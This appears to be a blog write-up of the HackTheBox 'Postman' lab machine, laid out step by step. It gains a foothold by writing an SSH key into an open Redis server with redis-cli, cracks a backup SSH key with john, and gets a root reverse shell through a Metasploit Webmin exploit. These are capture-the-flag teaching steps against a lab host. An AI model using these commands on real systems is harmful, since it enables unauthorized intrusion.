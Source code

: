 ```yaml
---
layout: post
title: HackTheBox Postman (10.10.10.160) Writeup
description: >
  Hackthebox Postman Writeup
image: /assets/img/postman.png
noindex: false
---
```


Start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-05 18:04 EST
Nmap scan report for postman (10.10.10.160)
Host is up (0.063s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.24 seconds
```
So a few ports open. First I enumerated port 80 and didn't find anything useful. Next I checked out port 10000 and once there I had to add ```postman``` to my ```/etc/hosts``` file. Once that was done I refreshed the page and was greeted with a ```webmin``` login. Now I was not able to do anything more since every exploit requires valid credentials which I don't have. Lastly, was port 6379 with redis. First I try to connect using ```telnet``` to see if the service has any sort of authentication set and turns out it doesn't. next step was to install ```redis-tools``` so I could use the ```redis-cli``` to interact with the redis service. Once that was done I was able to find an exploit where I upload my own ssh keys to the server and use that to ssh into the system.

First step is to take my ssh key and copy it to a new file but at the same time generating some random data to the beginning and end of the file
```
# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```
Next step is to set the keys into the database. You should see and OK message
```
# cat key.txt | redis-cli -h 10.10.10.160 -p 6379 -x set bb
OK
```
Now I need to copy the ssh key into the .ssh folder but first I need to find where that is. Using the command below I see its located at ```/var/lib/redis/.ssh```.
```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```
Now I change into the directory
```
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
```
Then I change the name of the database to ```authorized_keys``` since this will be the name of out file. Then just save and exit.
```
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```
Now I can ssh in as the user ```redis``` from my host machine
```
# ssh -i id_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Nov  5 19:58:37 2019 from 10.10.14.19
redis@Postman:~$ 
```
Now doing some manual enumeration I found an ```id_rsa.bak``` file in ```/opt```. I copied this file to my host machine and saw that it was password protected. Using ```ssh2john``` I can convert the ssh key into a format that john and read and will crack the password for me.
```
# python ssh2john.py id_rsa.bak > id_rsa.hash
```
Now john cracks the hash in only a few seconds and I am given a password of ```computer2008```
```
# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:12 DONE (2019-11-05 15:33) 0.07818g/s 1121Kp/s 1121Kc/s 1121KC/sa6_123..*7¡Vamos!
Session completed
```
I tried to ssh in as the user ```Matt``` and ```root``` and niether worked so the only other thing I could think of was to use the password for the ```webmin``` login page. It ended up working as the username ```Matt``` and password ```computer2008```. Now since I have credentials, I can use one of the CVE's from earlier. I spin up metasploit and load in the module ```exploit/linux/http/webmin_packageup_rce```. After entering all the necessary info I type run and it spawns a shell. If I do a ```whoami``` I see that I am the user ```root```
```
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.39:4444 
[+] Session cookie: 3e1a4b0fabef10776fd267a6809f2f62
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.39:4444 -> 10.10.10.160:44420) at 2019-11-05 16:25:54 -0500

whoami
root
```
To give myself a better shell I will spawn myself a python tty shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
root@Postman:/usr/share/webmin/package-updates/# cd
root@Postman:~#
```
From here I can read the user flag located at ```/home/Matt/user.txt```
```
root@Postman:~# cat /home/Matt/user.txt
517ad0ec2458ca****************
```
And the root flag from ```/root/root.txt```
```
root@Postman:~# cat root.txt
cat root.txt
a257741c5bed8be7**************
```
<br><br><br><br>
